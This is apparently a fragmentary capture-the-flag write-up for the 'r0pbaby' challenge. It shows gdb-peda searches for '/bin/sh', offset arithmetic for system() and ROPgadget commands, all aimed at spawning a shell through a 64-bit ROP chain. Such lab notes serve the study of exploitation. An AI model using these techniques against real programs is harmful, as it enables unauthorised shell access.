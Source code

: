 libc.so.6: 0x00007FFFF7FF59B0

Step1:



Step2:
Symbol system: 0x00007FFFF7876460

target:execute system(bin/sh)

find bin/sh

gdb-peda$ find /bin/sh

Found 6 results, display max 6 items:

 [heap] : 0x555555757040 ("/bin/sh\n")
 
 [heap] : 0x555555757462 --> 0x68732f6e69622f ('/bin/sh')
 
   libc : 0x7ffff7998879 --> 0x68732f6e69622f ('/bin/sh')
   
[stack] : 0x7fffffffb787 ("/bin/sh: 0x", '0' <repeats 16 times>, "\n")

[stack] : 0x7fffffffda72 --> 0x68732f6e69622f ('/bin/sh')

[stack] : 0x7fffffffde20 --> 0x68732f6e69622f ('/bin/sh')

gdb-peda$ x/s 0x7ffff7998879

0x7ffff7998879:	"/bin/sh"


offset_for_bin_sh=0x00007FFFF7FF59B0-0x7ffff7998879


offset_for_system=0x00007FFFF7FF59B0-0x00007FFFF7876460



Step3:

Because x64 is put the position to rdi instead of passing paratmeters,

so rquires gadgets requires pop rdi to pop address to rdi


root@kali:~/Documents/CTF# ROPgadget --binary r0pbaby > log.txt

root@kali:~/Documents/CTF# cat log.txt |grep pop


Reference:

https://blog.skullsecurity.org/2015/defcon-quals-r0pbaby-simple-64-bit-rop

http://qiita.com/MarshMallow_sh/items/87019f038e4f5dc82451

https://github.com/smokeleeteveryday/CTF_WRITEUPS/tree/master/2015/DEFCONCTF/babysfirst/r0pbaby
